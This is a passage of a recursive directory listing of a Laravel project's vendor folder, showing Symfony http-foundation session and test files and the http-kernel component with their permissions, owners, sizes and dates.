-rw-r--r-- 1 www-data www-data  30K Apr  4  2017 PdoSessionHandler.php
-rw-r--r-- 1 www-data www-data 2.0K Apr  4  2017 WriteCheckSessionHandler.php

/var/www/laravel/vendor/symfony/http-foundation/Session/Storage/Proxy:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data 2.4K Apr  4  2017 AbstractProxy.php
-rw-r--r-- 1 www-data www-data  933 Apr  4  2017 NativeProxy.php
-rw-r--r-- 1 www-data www-data 1.8K Apr  4  2017 SessionHandlerProxy.php

/var/www/laravel/vendor/symfony/http-foundation/Tests:
total 264K
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 3.5K Apr  4  2017 AcceptHeaderItemTest.php
-rw-r--r-- 1 www-data www-data 3.4K Apr  4  2017 AcceptHeaderTest.php
-rw-r--r-- 1 www-data www-data 2.7K Apr  4  2017 ApacheRequestTest.php
-rw-r--r-- 1 www-data www-data  12K Apr  4  2017 BinaryFileResponseTest.php
-rw-r--r-- 1 www-data www-data 5.7K Apr  4  2017 CookieTest.php
-rw-r--r-- 1 www-data www-data 2.6K Apr  4  2017 ExpressionRequestMatcherTest.php
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 File
-rw-r--r-- 1 www-data www-data 4.1K Apr  4  2017 FileBagTest.php
-rw-r--r-- 1 www-data www-data 7.5K Apr  4  2017 HeaderBagTest.php
-rw-r--r-- 1 www-data www-data 3.1K Apr  4  2017 IpUtilsTest.php
-rw-r--r-- 1 www-data www-data 8.3K Apr  4  2017 JsonResponseTest.php
-rw-r--r-- 1 www-data www-data 7.3K Apr  4  2017 ParameterBagTest.php
-rw-r--r-- 1 www-data www-data 2.9K Apr  4  2017 RedirectResponseTest.php
-rw-r--r-- 1 www-data www-data 4.7K Apr  4  2017 RequestMatcherTest.php
-rw-r--r-- 1 www-data www-data 2.1K Apr  4  2017 RequestStackTest.php
-rw-r--r-- 1 www-data www-data  91K Apr  4  2017 RequestTest.php
-rw-r--r-- 1 www-data www-data  12K Apr  4  2017 ResponseHeaderBagTest.php
-rw-r--r-- 1 www-data www-data  33K Apr  4  2017 ResponseTest.php
-rw-r--r-- 1 www-data www-data 3.4K Apr  4  2017 ResponseTestCase.php
-rw-r--r-- 1 www-data www-data 5.6K Apr  4  2017 ServerBagTest.php
drwxr-xr-x 5 www-data www-data 4.0K Apr  4  2017 Session
-rw-r--r-- 1 www-data www-data 3.6K Apr  4  2017 StreamedResponseTest.php

/var/www/laravel/vendor/symfony/http-foundation/Tests/File:
total 36K
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data  832 Apr  4  2017 FakeFile.php
-rw-r--r-- 1 www-data www-data 5.7K Apr  4  2017 FileTest.php
drwxr-xr-x 3 www-data www-data 4.0K Apr  4  2017 Fixtures
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 MimeType
-rw-r--r-- 1 www-data www-data 7.2K Apr  4  2017 UploadedFileTest.php

/var/www/laravel/vendor/symfony/http-foundation/Tests/File/Fixtures:
total 24K
drwxr-xr-x 3 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data    1 Apr  4  2017 .unknownextension
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 directory
-rw-r--r-- 1 www-data www-data    0 Apr  4  2017 other-file.example
-rw-r--r-- 1 www-data www-data   35 Apr  4  2017 test
-rw-r--r-- 1 www-data www-data   35 Apr  4  2017 test.gif

/var/www/laravel/vendor/symfony/http-foundation/Tests/File/Fixtures/directory:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data    0 Apr  4  2017 .empty

/var/www/laravel/vendor/symfony/http-foundation/Tests/File/MimeType:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data 3.1K Apr  4  2017 MimeTypeTest.php

/var/www/laravel/vendor/symfony/http-foundation/Tests/Session:
total 28K
drwxr-xr-x 5 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 Attribute
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 Flash
-rw-r--r-- 1 www-data www-data 6.3K Apr  4  2017 SessionTest.php
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 Storage

/var/www/laravel/vendor/symfony/http-foundation/Tests/Session/Attribute:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data 5.1K Apr  4  2017 AttributeBagTest.php
-rw-r--r-- 1 www-data www-data 5.3K Apr  4  2017 NamespacedAttributeBagTest.php

/var/www/laravel/vendor/symfony/http-foundation/Tests/Session/Flash:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data 4.5K Apr  4  2017 AutoExpireFlashBagTest.php
-rw-r--r-- 1 www-data www-data 3.8K Apr  4  2017 FlashBagTest.php

/var/www/laravel/vendor/symfony/http-foundation/Tests/Session/Storage:
total 40K
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  4  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 Handler
-rw-r--r-- 1 www-data www-data 4.0K Apr  4  2017 MetadataBagTest.php
-rw-r--r-- 1 www-data www-data 3.6K Apr  4  2017 MockArraySessionStorageTest.php
-rw-r--r-- 1 www-data www-data 3.8K Apr  4  2017 MockFileSessionStorageTest.php
-rw-r--r-- 1 www-data www-data 8.0K Apr  4  2017 NativeSessionStorageTest.php
-rw-r--r-- 1 www-data www-data 2.8K Apr  4  2017 PhpBridgeSessionStorageTest.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 Proxy

/var/www/laravel/vendor/symfony/http-foundation/Tests/Session/Storage/Handler:
total 60K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data 3.5K Apr  4  2017 MemcacheSessionHandlerTest.php
-rw-r--r-- 1 www-data www-data 3.8K Apr  4  2017 MemcachedSessionHandlerTest.php
-rw-r--r-- 1 www-data www-data  13K Apr  4  2017 MongoDbSessionHandlerTest.php
-rw-r--r-- 1 www-data www-data 2.4K Apr  4  2017 NativeFileSessionHandlerTest.php
-rw-r--r-- 1 www-data www-data  863 Apr  4  2017 NativeSessionHandlerTest.php
-rw-r--r-- 1 www-data www-data 1.7K Apr  4  2017 NullSessionHandlerTest.php
-rw-r--r-- 1 www-data www-data  12K Apr  4  2017 PdoSessionHandlerTest.php
-rw-r--r-- 1 www-data www-data 3.0K Apr  4  2017 WriteCheckSessionHandlerTest.php

/var/www/laravel/vendor/symfony/http-foundation/Tests/Session/Storage/Proxy:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data 3.3K Apr  4  2017 AbstractProxyTest.php
-rw-r--r-- 1 www-data www-data  877 Apr  4  2017 NativeProxyTest.php
-rw-r--r-- 1 www-data www-data 2.9K Apr  4  2017 SessionHandlerProxyTest.php

/var/www/laravel/vendor/symfony/http-kernel:
total 172K
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   77 Apr  5  2017 .gitignore
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Bundle
-rw-r--r--  1 www-data www-data 6.0K Apr  5  2017 CHANGELOG.md
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 CacheClearer
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 CacheWarmer
-rw-r--r--  1 www-data www-data 6.7K Apr  5  2017 Client.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Config
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 Controller
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 ControllerMetadata
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 DataCollector
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Debug
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 DependencyInjection
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Event
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 EventListener
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Exception
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Fragment
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 HttpCache
-rw-r--r--  1 www-data www-data  11K Apr  5  2017 HttpKernel.php
-rw-r--r--  1 www-data www-data 1.3K Apr  5  2017 HttpKernelInterface.php
-rw-r--r--  1 www-data www-data  23K Apr  5  2017 Kernel.php
-rw-r--r--  1 www-data www-data 3.3K Apr  5  2017 KernelEvents.php
-rw-r--r--  1 www-data www-data 4.4K Apr  5  2017 KernelInterface.php
-rw-r--r--  1 www-data www-data 1.1K Apr  5  2017 LICENSE
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Log
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Profiler
-rw-r--r--  1 www-data www-data  706 Apr  5  2017 README.md
-rw-r--r--  1 www-data www-data 1022 Apr  5  2017 TerminableInterface.php
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 Tests
-rw-r--r--  1 www-data www-data 2.9K Apr  5  2017 UriSigner.php
-rw-r--r--  1 www-data www-data 1.9K Apr  5  2017 composer.json
-rw-r--r--  1 www-data www-data 1.1K Apr  5  2017 phpunit.xml.dist

/var/www/laravel/vendor/symfony/http-kernel/Bundle:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 6.5K Apr  5  2017 Bundle.php
-rw-r--r--  1 www-data www-data 2.1K Apr  5  2017 BundleInterface.php

/var/www/laravel/vendor/symfony/http-kernel/CacheClearer:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  564 Apr  5  2017 CacheClearerInterface.php
-rw-r--r--  1 www-data www-data 1.2K Apr  5  2017 ChainCacheClearer.php
-rw-r--r--  1 www-data www-data  741 Apr  5  2017 Psr6CacheClearer.php

/var/www/laravel/vendor/symfony/http-kernel/CacheWarmer:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  870 Apr  5  2017 CacheWarmer.php
-rw-r--r--  1 www-data www-data 1.6K Apr  5  2017 CacheWarmerAggregate.php
-rw-r--r--  1 www-data www-data  820 Apr  5  2017 CacheWarmerInterface.php
-rw-r--r--  1 www-data www-data  582 Apr  5  2017 WarmableInterface.php

/var/www/laravel/vendor/symfony/http-kernel/Config:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 2.1K Apr  5  2017 EnvParametersResource.php
-rw-r--r--  1 www-data www-data 1.5K Apr  5  2017 FileLocator.php

/var/www/laravel/vendor/symfony/http-kernel/Controller:
total 52K
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 ArgumentResolver
-rw-r--r--  1 www-data www-data 3.4K Apr  5  2017 ArgumentResolver.php
-rw-r--r--  1 www-data www-data  924 Apr  5  2017 ArgumentResolverInterface.php
-rw-r--r--  1 www-data www-data 1.2K Apr  5  2017 ArgumentValueResolverInterface.php
-rw-r--r--  1 www-data www-data 1.4K Apr  5  2017 ControllerReference.php
-rw-r--r--  1 www-data www-data 9.0K Apr  5  2017 ControllerResolver.php
-rw-r--r--  1 www-data www-data 2.0K Apr  5  2017 ControllerResolverInterface.php
-rw-r--r--  1 www-data www-data 1.1K Apr  5  2017 TraceableArgumentResolver.php
-rw-r--r--  1 www-data www-data 2.3K Apr  5  2017 TraceableControllerResolver.php

/var/www/laravel/vendor/symfony/http-kernel/Controller/ArgumentResolver:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r-- 1 www-data www-data 1.2K Apr  5  2017 DefaultValueResolver.php
-rw-r--r-- 1 www-data www-data 1.1K Apr  5  2017 RequestAttributeValueResolver.php
-rw-r--r-- 1 www-data www-data 1.1K Apr  5  2017 RequestValueResolver.php
-rw-r--r-- 1 www-data www-data 1.5K Apr  5  2017 VariadicValueResolver.php

/var/www/laravel/vendor/symfony/http-kernel/ControllerMetadata:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 2.8K Apr  5  2017 ArgumentMetadata.php
-rw-r--r--  1 www-data www-data 3.6K Apr  5  2017 ArgumentMetadataFactory.php
-rw-r--r--  1 www-data www-data  627 Apr  5  2017 ArgumentMetadataFactoryInterface.php

/var/www/laravel/vendor/symfony/http-kernel/DataCollector:
total 96K
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  736 Apr  5  2017 AjaxDataCollector.php
-rw-r--r--  1 www-data www-data 7.1K Apr  5  2017 ConfigDataCollector.php
-rw-r--r--  1 www-data www-data 4.5K Apr  5  2017 DataCollector.php
-rw-r--r--  1 www-data www-data  995 Apr  5  2017 DataCollectorInterface.php
-rw-r--r--  1 www-data www-data  12K Apr  5  2017 DumpDataCollector.php
-rw-r--r--  1 www-data www-data 2.7K Apr  5  2017 EventDataCollector.php
-rw-r--r--  1 www-data www-data 2.2K Apr  5  2017 ExceptionDataCollector.php
-rw-r--r--  1 www-data www-data  518 Apr  5  2017 LateDataCollectorInterface.php
-rw-r--r--  1 www-data www-data 5.1K Apr  5  2017 LoggerDataCollector.php
-rw-r--r--  1 www-data www-data 2.3K Apr  5  2017 MemoryDataCollector.php
-rw-r--r--  1 www-data www-data  13K Apr  5  2017 RequestDataCollector.php
-rw-r--r--  1 www-data www-data 2.4K Apr  5  2017 RouterDataCollector.php
-rw-r--r--  1 www-data www-data 3.2K Apr  5  2017 TimeDataCollector.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Util

/var/www/laravel/vendor/symfony/http-kernel/DataCollector/Util:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r-- 1 www-data www-data 2.8K Apr  5  2017 ValueExporter.php

/var/www/laravel/vendor/symfony/http-kernel/Debug:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 2.6K Apr  5  2017 FileLinkFormatter.php
-rw-r--r--  1 www-data www-data 3.0K Apr  5  2017 TraceableEventDispatcher.php

/var/www/laravel/vendor/symfony/http-kernel/DependencyInjection:
total 36K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 4.4K Apr  5  2017 AddClassesToCachePass.php
-rw-r--r--  1 www-data www-data 1.4K Apr  5  2017 ConfigurableExtension.php
-rw-r--r--  1 www-data www-data 1.6K Apr  5  2017 Extension.php
-rw-r--r--  1 www-data www-data 2.7K Apr  5  2017 FragmentRendererPass.php
-rw-r--r--  1 www-data www-data 1.9K Apr  5  2017 LazyLoadingFragmentHandler.php
-rw-r--r--  1 www-data www-data 1.1K Apr  5  2017 MergeExtensionConfigurationPass.php

/var/www/laravel/vendor/symfony/http-kernel/Event:
total 44K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 1.4K Apr  5  2017 FilterControllerArgumentsEvent.php
-rw-r--r--  1 www-data www-data 1.4K Apr  5  2017 FilterControllerEvent.php
-rw-r--r--  1 www-data www-data 1.5K Apr  5  2017 FilterResponseEvent.php
-rw-r--r--  1 www-data www-data  447 Apr  5  2017 FinishRequestEvent.php
-rw-r--r--  1 www-data www-data 1.4K Apr  5  2017 GetResponseEvent.php
-rw-r--r--  1 www-data www-data 1.6K Apr  5  2017 GetResponseForControllerResultEvent.php
-rw-r--r--  1 www-data www-data 1.7K Apr  5  2017 GetResponseForExceptionEvent.php
-rw-r--r--  1 www-data www-data 2.2K Apr  5  2017 KernelEvent.php
-rw-r--r--  1 www-data www-data 1.2K Apr  5  2017 PostResponseEvent.php

/var/www/laravel/vendor/symfony/http-kernel/EventListener:
total 84K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 1.3K Apr  5  2017 AddRequestFormatsListener.php
-rw-r--r--  1 www-data www-data 5.8K Apr  5  2017 DebugHandlersListener.php
-rw-r--r--  1 www-data www-data 1.6K Apr  5  2017 DumpListener.php
-rw-r--r--  1 www-data www-data 3.8K Apr  5  2017 ExceptionListener.php
-rw-r--r--  1 www-data www-data 3.3K Apr  5  2017 FragmentListener.php
-rw-r--r--  1 www-data www-data 2.7K Apr  5  2017 LocaleListener.php
-rw-r--r--  1 www-data www-data 4.7K Apr  5  2017 ProfilerListener.php
-rw-r--r--  1 www-data www-data 1.4K Apr  5  2017 ResponseListener.php
-rw-r--r--  1 www-data www-data 5.5K Apr  5  2017 RouterListener.php
-rw-r--r--  1 www-data www-data 2.8K Apr  5  2017 SaveSessionListener.php
-rw-r--r--  1 www-data www-data 1.4K Apr  5  2017 SessionListener.php
-rw-r--r--  1 www-data www-data 1.3K Apr  5  2017 StreamedResponseListener.php
-rw-r--r--  1 www-data www-data 1.6K Apr  5  2017 SurrogateListener.php
-rw-r--r--  1 www-data www-data 2.5K Apr  5  2017 TestSessionListener.php
-rw-r--r--  1 www-data www-data 2.1K Apr  5  2017 TranslatorListener.php
-rw-r--r--  1 www-data www-data 1.4K Apr  5  2017 ValidateRequestListener.php

/var/www/laravel/vendor/symfony/http-kernel/Exception:
total 76K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  885 Apr  5  2017 AccessDeniedHttpException.php
-rw-r--r--  1 www-data www-data  828 Apr  5  2017 BadRequestHttpException.php
-rw-r--r--  1 www-data www-data  824 Apr  5  2017 ConflictHttpException.php
-rw-r--r--  1 www-data www-data  816 Apr  5  2017 GoneHttpException.php
-rw-r--r--  1 www-data www-data 1.1K Apr  5  2017 HttpException.php
-rw-r--r--  1 www-data www-data  691 Apr  5  2017 HttpExceptionInterface.php
-rw-r--r--  1 www-data www-data  836 Apr  5  2017 LengthRequiredHttpException.php
-rw-r--r--  1 www-data www-data  994 Apr  5  2017 MethodNotAllowedHttpException.php
-rw-r--r--  1 www-data www-data  834 Apr  5  2017 NotAcceptableHttpException.php
-rw-r--r--  1 www-data www-data  831 Apr  5  2017 NotFoundHttpException.php
-rw-r--r--  1 www-data www-data  844 Apr  5  2017 PreconditionFailedHttpException.php
-rw-r--r--  1 www-data www-data  894 Apr  5  2017 PreconditionRequiredHttpException.php
-rw-r--r--  1 www-data www-data 1.1K Apr  5  2017 ServiceUnavailableHttpException.php
-rw-r--r--  1 www-data www-data 1.2K Apr  5  2017 TooManyRequestsHttpException.php
-rw-r--r--  1 www-data www-data  979 Apr  5  2017 UnauthorizedHttpException.php
-rw-r--r--  1 www-data www-data  855 Apr  5  2017 UnprocessableEntityHttpException.php
-rw-r--r--  1 www-data www-data  848 Apr  5  2017 UnsupportedMediaTypeHttpException.php

/var/www/laravel/vendor/symfony/http-kernel/Fragment:
total 52K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 4.1K Apr  5  2017 AbstractSurrogateFragmentRenderer.php
-rw-r--r--  1 www-data www-data  563 Apr  5  2017 EsiFragmentRenderer.php
-rw-r--r--  1 www-data www-data 4.0K Apr  5  2017 FragmentHandler.php
-rw-r--r--  1 www-data www-data 1.2K Apr  5  2017 FragmentRendererInterface.php
-rw-r--r--  1 www-data www-data 5.6K Apr  5  2017 HIncludeFragmentRenderer.php
-rw-r--r--  1 www-data www-data 5.4K Apr  5  2017 InlineFragmentRenderer.php
-rw-r--r--  1 www-data www-data 3.1K Apr  5  2017 RoutableFragmentRenderer.php
-rw-r--r--  1 www-data www-data  563 Apr  5  2017 SsiFragmentRenderer.php

/var/www/laravel/vendor/symfony/http-kernel/HttpCache:
total 80K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 4.4K Apr  5  2017 AbstractSurrogate.php
-rw-r--r--  1 www-data www-data 3.6K Apr  5  2017 Esi.php
-rw-r--r--  1 www-data www-data  24K Apr  5  2017 HttpCache.php
-rw-r--r--  1 www-data www-data 2.8K Apr  5  2017 ResponseCacheStrategy.php
-rw-r--r--  1 www-data www-data 1.1K Apr  5  2017 ResponseCacheStrategyInterface.php
-rw-r--r--  1 www-data www-data 2.9K Apr  5  2017 Ssi.php
-rw-r--r--  1 www-data www-data  15K Apr  5  2017 Store.php
-rw-r--r--  1 www-data www-data 2.6K Apr  5  2017 StoreInterface.php
-rw-r--r--  1 www-data www-data 3.0K Apr  5  2017 SurrogateInterface.php

/var/www/laravel/vendor/symfony/http-kernel/Log:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  855 Apr  5  2017 DebugLoggerInterface.php

/var/www/laravel/vendor/symfony/http-kernel/Profiler:
total 36K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 8.0K Apr  5  2017 FileProfilerStorage.php
-rw-r--r--  1 www-data www-data 5.4K Apr  5  2017 Profile.php
-rw-r--r--  1 www-data www-data 7.0K Apr  5  2017 Profiler.php
-rw-r--r--  1 www-data www-data 1.5K Apr  5  2017 ProfilerStorageInterface.php

/var/www/laravel/vendor/symfony/http-kernel/Tests:
total 136K
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 19 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Bundle
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 CacheClearer
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 CacheWarmer
-rw-r--r--  1 www-data www-data 8.5K Apr  5  2017 ClientTest.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Config
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Controller
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 ControllerMetadata
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 DataCollector
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Debug
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 DependencyInjection
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 EventListener
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Exception
drwxr-xr-x 14 www-data www-data 4.0K Apr  5  2017 Fixtures
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Fragment
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 HttpCache
-rw-r--r--  1 www-data www-data  14K Apr  5  2017 HttpKernelTest.php
-rw-r--r--  1 www-data www-data  27K Apr  5  2017 KernelTest.php
-rw-r--r--  1 www-data www-data 2.1K Apr  5  2017 Logger.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Profiler
-rw-r--r--  1 www-data www-data 1.2K Apr  5  2017 TestHttpKernel.php
-rw-r--r--  1 www-data www-data 1.9K Apr  5  2017 UriSignerTest.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Bundle:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data 3.5K Apr  5  2017 BundleTest.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/CacheClearer:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data 1.5K Apr  5  2017 ChainCacheClearerTest.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/CacheWarmer:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data 2.9K Apr  5  2017 CacheWarmerAggregateTest.php
-rw-r--r--  1 www-data www-data 1.6K Apr  5  2017 CacheWarmerTest.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Config:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data 2.8K Apr  5  2017 EnvParametersResourceTest.php
-rw-r--r--  1 www-data www-data 1.7K Apr  5  2017 FileLocatorTest.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Controller:
total 36K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data 9.7K Apr  5  2017 ArgumentResolverTest.php
-rw-r--r--  1 www-data www-data  14K Apr  5  2017 ControllerResolverTest.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/ControllerMetadata:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data 4.9K Apr  5  2017 ArgumentMetadataFactoryTest.php
-rw-r--r--  1 www-data www-data 1.4K Apr  5  2017 ArgumentMetadataTest.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/DataCollector:
total 56K
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data 2.4K Apr  5  2017 ConfigDataCollectorTest.php
-rw-r--r--  1 www-data www-data 1.6K Apr  5  2017 DataCollectorTest.php
-rw-r--r--  1 www-data www-data 3.8K Apr  5  2017 DumpDataCollectorTest.php
-rw-r--r--  1 www-data www-data 1.3K Apr  5  2017 ExceptionDataCollectorTest.php
-rw-r--r--  1 www-data www-data 4.7K Apr  5  2017 LoggerDataCollectorTest.php
-rw-r--r--  1 www-data www-data 1.9K Apr  5  2017 MemoryDataCollectorTest.php
-rw-r--r--  1 www-data www-data  11K Apr  5  2017 RequestDataCollectorTest.php
-rw-r--r--  1 www-data www-data 1.6K Apr  5  2017 TimeDataCollectorTest.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Util

/var/www/laravel/vendor/symfony/http-kernel/Tests/DataCollector/Util:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r-- 1 www-data www-data 1.5K Apr  5  2017 ValueExporterTest.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Debug:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data 2.3K Apr  5  2017 FileLinkFormatterTest.php
-rw-r--r--  1 www-data www-data 4.8K Apr  5  2017 TraceableEventDispatcherTest.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/DependencyInjection:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 ..
